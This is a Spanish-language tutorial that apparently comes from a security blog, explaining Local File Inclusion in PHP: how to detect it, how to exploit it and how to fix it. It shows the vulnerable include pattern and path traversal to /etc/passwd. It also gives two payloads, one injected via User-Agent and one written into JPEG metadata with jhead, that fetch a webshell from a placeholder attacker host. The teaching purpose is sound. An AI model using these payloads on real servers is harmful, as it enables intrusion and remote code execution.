

Actualmente hay muchas maneras de atacar páginas web. En este artículo vamos a ver cómo atacar la vulnerabilidad LFI (Local File Inclusion). Esta técnica consiste en incluir ficheros locales, es decir, archivos que se encuentran en el mismo servidor de la web con este tipo de fallo. Es diferente a Remote File Inclusion (RFI), que incluye archivos alojados en otros servidores.
Esto se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos. En un escenario como éste, un atacante podría modificar los parámetros de lo que se incluye; por ejemplo, podría incluir otros archivos que están en el servidor con información muy importante, como el archivo de contraseñas /etc/passwd en sistemas Linux.
Algunas maneras de detectar la vulnerabilidad
1. Agregando un valor ilógico a la variable en la URL
Si al ingresar un valor ilógico en un parámetro URL nos devuelve un error como Warning: main o warning include, sería un posible indicio de que la página es vulnerable a LFI.
2. Ver código PHP
Si el código muestra lo siguiente, significa que es vulnerable debido a la variable include:
<?php include $_GET['pagina']; ?>Maneras de realizar el ataque
1. Mediante función include
El objetivo será ir moviéndonos por los distintos directorios de la página web con la expresión ../ y añadimos al final etc/passwd para intentar acceder a este archivo.

Como observamos, nos devuelve el archivo /etc/passwd.
2. Utilizando el User-Agent
Para realizar este tipo de inclusión debemos irnos a Burp Suite y cuando tengamos la petición parada cambiamos el parámetro User-Agent por la siguiente línea:
<?php system('GET http://servidorAtacante/webshell.txt > webshell.php'); ?>3. Mediante metadatos de la cabecera
El objetivo será subir una imagen al servidor pero previamente habiendo hecho una modificación para poder después realizar el include. La imagen debe ser .jpg y con el comando jhead modificamos la cabecera de la imagen:
jhead -cl "<?php system('GET http://servidorAtacante/webshell.txt > webshell.php'); ?>" imagen.jpgUna vez modificada la cabecera de la imagen, solo queda realizar el include.
4. Ataque LFI con diccionario
En este caso, realizamos un ataque LFI mediante un diccionario. Debemos crear un diccionario con valores que suelen ser susceptibles de ataques LFI. Para realizar el ataque utilizaremos cualquier herramienta de fuzzing: dirb, wfuzz o gobuster, entre muchos otros.

Lo que sucede en este caso es que fuzzeamos la página y nuestro objetivo es encontrar respuestas 200 obtenidas mediante LFI.
Arreglar la vulnerabilidad LFI
A pesar de que esta es una vulnerabilidad bastante peligrosa, no quiere decir que no se pueda mitigar. Algunas maneras de arreglarlo son las siguientes:
1. Cambiando el código PHP
<?php include('pagina.php'); ?>Teniendo el código de esta manera nos aseguramos de cerrar una posible puerta de entrada a un ataque LFI.
2. Deshabilitar allow_url_fopen y allow_url_include
Dentro del archivo .ini se recomienda compilar PHP localmente sin incluir esta funcionalidad. Muy pocas aplicaciones necesitan esta funcionalidad y para estos casos estas opciones deberían habilitarse desde la base de la aplicación.
3. Validación estricta de la entrada del usuario
En conclusión, la vulnerabilidad LFI puede llegar a resultar muy fatídica, pero es bastante simple de mitigar si se aplican las medidas adecuadas.